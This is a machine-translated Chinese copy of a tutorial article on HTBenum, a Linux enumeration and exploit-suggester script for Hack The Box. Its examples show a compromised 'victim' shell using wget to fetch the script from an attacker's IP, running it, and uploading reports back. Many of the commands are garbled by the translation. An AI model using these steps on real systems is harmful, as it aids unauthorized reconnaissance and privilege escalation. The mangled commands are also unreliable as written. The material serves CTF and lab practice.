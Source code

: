 # HTBenum:一个用于黑掉机器的 Linux 枚举脚本

> 原文：<https://kalilinuxtutorials.com/htbenum/>

[![HTBenum : A Linux Enumeration Script For Hack The Box](img//3e82b8c2519d0da44303347ae6d2455c.png "HTBenum : A Linux Enumeration Script For Hack The Box")](https://1.bp.blogspot.com/-uuLRctJl3E0/XpsVO_zsAuI/AAAAAAAAF9o/oLXsKYVStbELAVKSm-oA5nY2FDnm0N0CwCLcBGAsYHQ/s1600/Htbenum%25281%2529.png)

**HTBenum** 是一个用于黑掉机器的 Linux 枚举脚本。该脚本设计用于在 Linux 主机上无法访问互联网，并且希望运行枚举和漏洞利用建议脚本(如 Hack The Box)的情况。

当我在 Linux 机器上有了一个初步的立足点时，我发现自己也在运行一组类似的脚本，这个脚本有助于自动化下载每个枚举脚本的最新版本、使它可执行、运行它，以及将输出发送到一个文件供以后查看的过程。它还有一个内置的 web 服务器来托管工具并将报告上传回主机。

**特性**

*   5 种不同的枚举脚本，包括:
    *   [linux 智能枚举](https://github.com/diego-treitos/linux-smart-enumeration/)
    *   [LinEnum](https://github.com/rebootuser/LinEnum/)
    *   [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    *   上浮
    *   [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
*   2 种不同的漏洞利用建议工具，包括:
    *   [Linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    *   [LES: Linux 权限提升审计工具](https://github.com/mzet-/linux-exploit-suggester)
*   内置网络服务器，用于托管工具和上传完成的报告
*   自动工具下载和更新功能
*   自定义目录选项，用于当您知道自己有权访问特定目录时(默认为/tmp)
*   交互式菜单让您选择是只运行枚举，只运行 expoit 建议，还是两者都运行
*   检查 Python 2 和 3，并让您知道在 Python 缺失的情况下将跳过哪些脚本

**用途**

**。/htbenum.sh [-u] -i IP -p 端口[-o 目录] [-w] [-r]**

**示例:**
主机:root@kali:~/htbenum#。/htbenum.sh -u
主机:root@kali:~/htbenum#。/htb enum . sh-I 10 . 10 . 14 . 1-p 80-w
受害机:www-data@victim:/tmp$ wget http://10 . 10 . 14 . 1:80/htb enum . sh
受害机:www-data @ Victim:/tmp $ chmod+x ./htb enum . sh
受害机:www-data @ Victim:/tmp $。/htbenum . sh-I 10 . 10 . 14 . 1-p 80-r

**参数:**
-h-查看帮助和用法。
-I IP–用于上传和下载的监听 web 服务器的 IP 地址。
-p 端口–用于上传和下载的监听 web 服务器的 TCP 端口。
-o 目录——自定义下载和报表创建目录(默认为/tmp)。
-w–启动内置网络服务器下载文件和上传报告。
-u–更新到每个工具的最新版本，覆盖任何现有版本。
-r–将报告上传回主机 web 服务器(必须支持上传请求)。

**也读作-[rich kit:领域丰富工具包](https://github.com/SolomonSklash/htbenum)**

使用这个工具克隆 repo，并在本地机器上运行带有`**update**`参数的脚本。这将从互联网(Github)下载并更新所有需要的脚本，并将它们放在与`**htbenum.sh**`相同的目录中:

**root@kali:~#** git 克隆 https://github.com/SolomonSklash/htbenum
**root @ kali:~ #**CD htbenum
**root @ kali:~**/htbenum #。/htbenum.sh -u

**作者 solomonsklash–solomonsklash @ 0x feed . io**

**【I】更新所有工具…**
2019-11-25 17:54:55 网址:https://raw . githubusercontent . com/Diego-treitos/Linux-smart-enumeration/master/LSE . sh[31859/31859]-【网址

**root @ kali:~/htbenum #**

然后，启动内置 web 服务器来托管工具并接收完成的报告。服务器需要 Python 3。您可以使用自己的 web 服务器来托管工具，但是它需要支持报告上传的 PUT 请求。

**root@kali:~** /htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w

最后，将 htbenum.sh 脚本上传到您的目标机器，使其可执行，并使用您的主机的 IP 和端口运行它，并带有一个可选的目录用于下载文件和编写报告输出。您也可以选择将报告上传回主机。例如:

**www-data @ htb:/tmp $**wget http://10 . 10 . 99 . 100/htbenum . sh-O/tmp/htbenum . sh
www-data @ htb:/tmp $chmod+x ./htbenum . sh
www-data @ htb:/tmp $。/htbenum.sh -i 10.10.14.1 -p 80 -r

每个工具都会将其输出发送到与 htbenum.sh 脚本位于同一目录的报告文件中，或者发送到-d 参数指定的任何目录中。

[**Download**](https://github.com/SolomonSklash/htbenum)